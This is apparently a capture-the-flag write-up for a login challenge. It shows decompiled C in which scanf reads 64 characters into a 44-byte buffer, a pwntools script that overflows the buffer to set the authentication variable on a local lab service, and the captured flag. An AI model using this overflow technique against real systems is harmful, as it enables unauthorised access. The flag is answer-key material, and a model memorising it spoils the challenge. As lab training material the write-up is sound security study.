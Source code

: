```yaml
---
created: 2025-03-01T22:17
updated: 2025-03-18T02:29
points: 100
solves: 16
---
```


Well, `passw0rd` didn't work.

But... if we look closely, `s1` has length of 44 while `scanf` takes in 64 characters.

We can overflow it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s1[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  puts(">>        * * * Login * * *        <<");
  v5 = 0;
  printf("Enter the password: ");
  __isoc99_scanf("%64[^\n]", s1);
  if ( !strcmp(s1, "passw0rd") )
    v5 = 1;
  if ( v5 )
  {
    puts("The password is right!");
    sub_4011F6();
  }
  else
  {
    puts("Wrong password.");
  }
  puts(">>        * * *  Bye  * * *        <<");
  return 0LL;
}
```

```python
# http://127.0.0.1:57254/
from pwn import *
r = remote('127.0.0.1', 57254)
payload = b"A" * 44
payload += p32(1)
r.sendlineafter(b'Enter the password: ', payload)
r.interactive()
```

```flag
ATHACKCTF{seee_d0uble_y0u_eee_0ne_twenty}
```
